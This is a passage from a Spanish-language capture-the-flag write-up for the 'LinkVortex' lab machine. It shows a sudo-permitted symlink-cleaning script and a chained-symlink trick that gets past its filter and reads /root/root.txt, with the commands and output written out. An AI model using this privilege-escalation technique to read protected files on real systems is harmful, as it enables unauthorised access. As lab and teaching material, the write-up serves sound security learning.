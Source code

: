 Revisando si el usuario `bob` dispone de algún permiso de `sudoers`, verificamos que existe un binario inusual llamado `/opt/ghost/clean_symlink.sh`.

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Al revisar el contenido del script de Bash, verificamos que este script podría ser parte de un proceso automatizado para monitorear enlaces simbólicos y **aislar aquellos que apuntan a ubicaciones sensibles** como `/etc` o `/root`, asegurando así que **solo archivos seguros** se dejen pasar.

<pre class="language-bash"><code class="lang-bash">bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
<strong>#!/bin/bash
</strong>
QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
</code></pre>

Sabiendo el comportamiento del script, lo que realizaremos es crear un enlace simbólico del archivo `/root/root.txt` para un archivo `gzzcoo.txt`&#x20;

```bash
bob@linkvortex:~$ ln -s /root/root.txt gzzcoo.txt      
bob@linkvortex:~$ ln -s /home/bob/gzzcoo.txt gzzcoo.png
bob@linkvortex:~$ ls -l
total 4
lrwxrwxrwx 1 bob  bob 20 Jan 15 02:27 gzzcoo.png -> /home/bob/gzzcoo.txt
lrwxrwxrwx 1 bob  bob 14 Jan 15 02:27 gzzcoo.txt -> /root/root.txt
-rw-r----- 1 root bob 33 Jan 15 00:55 user.txt
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh gzzcoo.png
Link found [ gzzcoo.png ] , moving it to quarantine
Content:
6cbb92bb3649********************
```
